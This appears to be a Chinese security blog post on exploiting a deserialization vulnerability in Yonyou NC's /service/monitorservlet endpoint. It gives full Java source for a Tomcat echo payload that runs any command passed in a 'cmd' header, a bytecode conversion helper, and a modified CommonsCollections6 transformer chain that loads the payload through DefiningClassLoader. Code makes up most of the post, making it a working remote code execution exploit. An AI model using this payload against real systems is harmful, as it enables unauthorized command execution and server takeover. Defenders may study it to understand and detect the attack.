



用友nc 反序列化回显构造思路 漏洞原理 /service/monitorservlet存在反序列化利用点，可以直接攻击

回显思路 网上大部分cc回显是将构造的回显类塞进TemplatesImpl中，默认安装的用友nc开启了jdk security 过滤了TemplatesImpl类，导致利用网上写好的cc回显是无法成功.
分析后可以发现org.mozilla.javascript.DefiningClassLoader被加载进classpath,所以这里可以直接用defineClass+tomcat回显payload:https://gist.github.com/fnmsd/4d9ed529ceb6c2a464f75c379dadd3a8
利用结果如下

Payload食用
编译dfs
做了一点修改，发现靶机会因为getWriter报错,添加了p.getWriter().close();效果会好一些，手动关闭流

1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 package com.osword.defineclass;import javax.servlet.http.HttpServletRequest;import javax.servlet.http.HttpServletResponse;import java.lang.reflect.Field;import java.util.HashSet;import java.util.Scanner;public class dfs static HashSet<Object> h; static HttpServletRequest r; static HttpServletResponse p; public static void main (String[] args) System.out.println("fuck" ); r = null ; p = null ; h =new HashSet<Object>(); F(Thread.currentThread(),0 ); } private static boolean i (Object obj) if (obj==null || h.contains(obj)){ return true ; } h.add(obj); return false ; } private static void p (Object o, int depth) if (depth > 52 ||(r !=null && p !=null )){ return ; } if (!i(o)){ if (r ==null &&HttpServletRequest.class .isAssignableFrom (o .getClass ())) { r = (HttpServletRequest)o; if (r.getHeader("cmd" )==null ) { r = null ; }else { try { p = (HttpServletResponse) r.getClass().getMethod("getResponse" ).invoke(r); } catch (Exception e) { r = null ; } } } if (r !=null && p !=null ){ try { p.getWriter().println(new Scanner(Runtime.getRuntime().exec(r.getHeader("cmd" )).getInputStream()).useDelimiter("\\A" ).next()); p.getWriter().flush(); p.getWriter().close(); }catch (Exception e){ } return ; } F(o,depth+1 ); } } private static void F (Object start, int depth) Class n=start.getClass(); do { for (Field declaredField : n.getDeclaredFields()) { declaredField.setAccessible(true ); Object o = null ; try { o = declaredField.get(start); if (!o.getClass().isArray()){ p(o,depth); }else { for (Object q : (Object[]) o) { p(q, depth); } } }catch (Exception e){ } } }while ( (n = n.getSuperclass())!=null ); } }
将编译后的dfs 转为字节码
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 package com.osword.defineclass;import java.io.*;public class ClassLoaderMain public static void main (String[] args) throws Exception byte [] bs = getBytesByFile("/Users/osword/Desktop/rep/target/classes/com/osword/defineclass/dfs.class" ); for (int i = 0 ; i < bs.length; i++) { System.out.print(bs[i]+"," ); } } public static byte [] getBytesByFile(String pathStr) { File file = new File(pathStr); try { FileInputStream fis = new FileInputStream(file); ByteArrayOutputStream bos = new ByteArrayOutputStream(1000 ); byte [] b = new byte [1000 ]; int n; while ((n = fis.read(b)) != -1 ) { bos.write(b, 0 , n); } fis.close(); byte [] data = bos.toByteArray(); bos.close(); return data; } catch (Exception e) { e.printStackTrace(); } return null ; } }
字节码贴入CommonsCollections6中反射，形如如下调用
1 DefiningClassLoader.class.getDeclaredConstructor().newInstance(new Object[0]).defineClass("com.osword.defineclass.dfs",bs).getMethod("main").invoke(null);
修改cc6如下,替换transformers构造
1 2 3 4 5 6 7 8 9 10 final Transformer[] transformers = new Transformer[] { new ConstantTransformer(DefiningClassLoader.class ), new InvokerTransformer("getDeclaredConstructor", new Class[]{Class[].class}, new Object[]{new Class[0]}), new InvokerTransformer("newInstance", new Class[]{Object[].class}, new Object[]{new Object[0]}), new InvokerTransformer("defineClass" , new Class[]{String.class, byte[].class}, new Object[]{"com.osword.defineclass.dfs", bs}), new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"main", new Class[]{String[].class}}), new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[]{null}}), new ConstantTransformer(new HashSet())};